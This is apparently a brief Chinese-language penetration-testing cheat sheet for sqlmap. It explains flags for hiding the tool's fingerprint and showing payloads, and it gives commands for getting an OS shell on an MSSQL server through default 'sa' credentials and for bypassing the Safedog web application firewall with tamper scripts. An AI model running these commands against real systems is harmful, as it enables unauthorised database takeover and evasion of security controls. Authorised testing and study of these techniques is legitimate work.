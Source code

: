 --random-agent 去除sqlmap指纹

--batch 自动答复与判断

--risk 3 设置是否允许注入垃圾字符如添加数据删除数据

-v 3 可以查看到sqlmap所执行的payload

 

 

sqlmap.py -d mssql://sa:sa@10.168.188.15:1433/master --os-shell 执行数据库提权操作

sqlmap.py -r c:/2.txt --dbms mssql --skip-waf --random-agent --technique SBT -v 3 -p newpass --tamper equaltolike,space2mysqldash 绕过安全狗

 
